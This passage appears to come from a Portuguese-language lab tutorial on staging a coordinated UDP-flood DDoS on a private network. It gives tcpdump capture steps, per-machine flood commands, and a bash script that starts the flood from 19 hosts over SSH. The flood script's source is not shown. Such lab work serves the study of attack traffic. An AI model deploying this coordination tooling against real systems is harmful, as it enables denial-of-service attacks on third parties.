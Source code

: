 ```python
```

Salve como `udp_server.py` e execute:

```bash
chmod +x udp_server.py
python3 udp_server.py
```

### 3.3. Execução do Ataque DDoS Coordenado

1. **No computador monitor**, inicie a captura:
   ```bash
   sudo tcpdump -i eth0 -w ddos_attack.pcap host 192.168.1.100 and udp port 9999
   ```

2. **No computador alvo**, execute o servidor UDP:
   ```bash
   python3 udp_server.py
   ```

3. **Coordenação do ataque**:
   - Distribua o script `udp_flood.py` para todos os computadores atacantes
   - Atribua um ID único para cada atacante (1-19)
   - Prepare um script de coordenação para iniciar o ataque simultaneamente

4. **Em cada computador atacante**, execute (com seu ID único):
   ```bash
   # Torne o script executável
   chmod +x udp_flood.py
   
   # Execute o ataque (substitua X pelo ID do atacante)
   python3 udp_flood.py 192.168.1.100 9999 -s 1024 -d 60 -i X
   ```

5. **Opcionalmente**, use um script de coordenação SSH para iniciar todos os ataques simultaneamente:

```bash
#!/bin/bash
# Salve como coordinator.sh

# Lista de IPs dos atacantes
ATTACKERS=(
  "192.168.1.1"
  "192.168.1.2"
  # ... adicione todos os IPs ...
  "192.168.1.19"
)

TARGET="192.168.1.100"
PORT=9999
DURATION=60

echo "[*] Iniciando ataque DDoS coordenado contra $TARGET:$PORT"
echo "[*] Duração: $DURATION segundos"
echo "[*] Número de atacantes: ${#ATTACKERS[@]}"

# Inicia o ataque em cada máquina
for i in "${!ATTACKERS[@]}"; do
  ATTACKER_IP="${ATTACKERS[$i]}"
  ATTACKER_ID=$((i+1))
  
  echo "[*] Iniciando atacante #$ATTACKER_ID ($ATTACKER_IP)..."
  ssh usuario@$ATTACKER_IP "cd /tmp && python3 udp_flood.py $TARGET $PORT -s 1024 -d $DURATION -i $ATTACKER_ID" &
done

```